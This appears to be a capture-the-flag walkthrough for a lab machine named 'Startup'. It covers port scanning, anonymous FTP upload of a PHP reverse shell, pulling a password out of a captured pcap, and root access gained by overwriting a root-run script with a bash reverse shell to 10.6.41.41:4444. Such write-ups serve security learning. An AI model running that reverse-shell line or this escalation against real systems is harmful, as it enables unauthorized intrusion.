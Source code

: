 
# Startup

IP - 10.10.149.162

## Scanning and Enumeration

nmap:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.6.41.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|*End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|*-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|*http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|*  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Maintenance
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
```


dirsearch:
```
[14:21:55] 403 -   277B - /.php

[14:21:55] 403 -   277B - /.php3

[14:22:22] 301 -   312B - /files  ->  http://10.10.194.20/files/

[14:22:22] 200 -    1KB - /files/

[14:22:25] 200 -   808B - /index.html
```


Clue found in http://10.10.149.162/files/notice.txt


![image](https://github.com/user-attachments/assets/62099454-1c6d-49c7-ad40-118f62f32e98)



FTP port is accessible using "anonymous" username.


![image](https://github.com/user-attachments/assets/a262527a-6217-4034-a30b-4cacf208489d)



## PHP Reverse Shell


ftp directory have full permissions enabled which allowed me to transfer from my machine to the ftp server a php reverse shell file and execute it while having netcat listener in the background.


![image](https://github.com/user-attachments/assets/b0745e84-34c8-4568-a1a6-0169359f534b)


Successfully got a reverse shell!


![image](https://github.com/user-attachments/assets/e3d2aa87-1bb0-4c50-b9c2-60402b0a7ff6)


Found answer to the first question:
```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```


## Finding User.txt File


- Found a directory named "incidents" containing a .pcapng file, which stores captured network traffic (e.g., from Wireshark or tcpdump).
- Since the file wasn’t readable on the target machine, I transferred it to my local machine by running ``` python3 -m http.server 8000 ``` on the target and ``` wget http://10.10.215.35:8000/suspicious.pcapng ``` on my machine.
- Used ``` strings suspicious.pcapng ``` to read the file and found repeated connection attempts using the password: c4ntg3t3n0ughsp1c3.


![image](https://github.com/user-attachments/assets/066f499d-634e-4a0e-9d5c-6220f3437f57)


- Used this password to connect to user lennie and successfully logged in and found user.txt file.


## Privilege Escalation

- In lennie's PC I found those files:
```
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 May 29 21:10 startup_list.txt
-rwx------ 1 lennie lennie    25 Nov 12  2020 print.sh
```

planner.sh runs two commands:

1). It saves the content of the $LIST variable to /home/lennie/scripts/startup_list.txt.

2). Then it runs the /etc/print.sh script.

I modified /etc/print.sh to run a reverse shell as root when planner.sh is executed, giving me root access. 
```
echo '#!/bin/bash
bash -i >& /dev/tcp/10.6.41.41/4444 0>&1' > /etc/print.sh
```



